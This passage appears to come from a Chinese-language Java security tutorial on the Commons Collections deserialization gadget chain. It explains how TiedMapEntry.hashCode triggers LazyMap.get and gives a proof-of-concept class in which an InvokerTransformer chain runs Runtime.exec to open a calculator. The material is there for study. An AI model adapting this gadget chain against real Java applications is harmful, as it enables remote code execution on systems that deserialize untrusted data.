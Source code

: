 ```java
     */
    public Object getValue() {
        return map.get(key);
    }

    // ... 省略部分无关代码 ...

    /**
     * 获取与equals方法兼容的hashCode
     */
    public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode());
    }
}
```

`TiedMapEntry`类中的`hashCode`方法将条目的键和值的哈希码进行异或运算，以计算条目的哈希码。在`hashCode`方法中有对`getValue`方法进行调用，而`getValue`中又存在`map.get`调用，这样便能够触发`LayzMap#get`。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;
import java.util.Map;

public class TiedMapEntryTest {
    public static void main(String[] args) {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"open -a Calculator"})
        };
        Transformer tcChain = new ChainedTransformer(transformers);

        Map lazyMap = LazyMap.decorate(new HashMap(), tcChain);

        TiedMapEntry tme = new TiedMapEntry(lazyMap, "k");

        tme.hashCode();
    }
}
```
